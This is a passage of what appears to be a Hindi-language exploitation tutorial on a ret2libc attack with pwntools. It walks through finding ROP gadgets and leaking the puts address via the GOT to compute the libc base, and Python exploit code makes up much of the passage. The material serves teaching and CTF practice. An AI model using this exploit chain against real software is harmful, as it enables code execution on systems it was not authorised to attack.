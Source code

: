 एक और तरीका हो सकता है: `pattern create 1000` -- _रिटर्न तक चलाएं_ -- `pattern seach $rsp` GEF से।

## 2- गैजेट्स खोजना

अब हमें बाइनरी के अंदर ROP गैजेट्स खोजने की आवश्यकता है। ये ROP गैजेट्स `puts` को कॉल करने के लिए उपयोगी होंगे **libc** को खोजने के लिए, और बाद में **अंतिम धोखाधड़ी को लॉन्च करने** के लिए।
```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
`PUTS_PLT` को **फ़ंक्शन puts** को कॉल करने के लिए आवश्यक है।
`MAIN_PLT` को **मुख्य फ़ंक्शन** को फिर से कॉल करने के लिए आवश्यक है एक इंटरेक्शन के बाद **ओवरफ़्लो** को **फिर से शांत करने के लिए** (असीमित दौरों के लिए शोषण)। **हर ROP के अंत में प्रोग्राम को फिर से कॉल करने के लिए इस्तेमाल किया जाता है**।
**POP\_RDI** को **बुलाए गए फ़ंक्शन** को **पैरामीटर** पास करने के लिए आवश्यक है।

इस चरण में आपको कुछ भी नहीं चलाने की आवश्यकता है क्योंकि पूटूल्स द्वारा निष्पादन के दौरान सभी चीजें मिल जाएंगी।

## 3- लिबसी पुस्तकालय खोजना

अब समय है पता लगाने का कि कौन सी **libc** पुस्तकालय का संस्करण उपयोग किया जा रहा है। इसके लिए हमें **मेमोरी** में **फ़ंक्शन** `puts` का **पता** लगाना होगा और फिर हमें इस पते में कौन सा **पुस्तकालय संस्करण** है उसे खोजना होगा।
```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
p.interactive()
```
इसे करने के लिए, निष्पादित कोड की सबसे महत्वपूर्ण लाइन है:
```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```
यह कुछ बाइट भेजेगा जब तक **RIP** को **ओवरराइट** करना संभव हो: `OFFSET`।\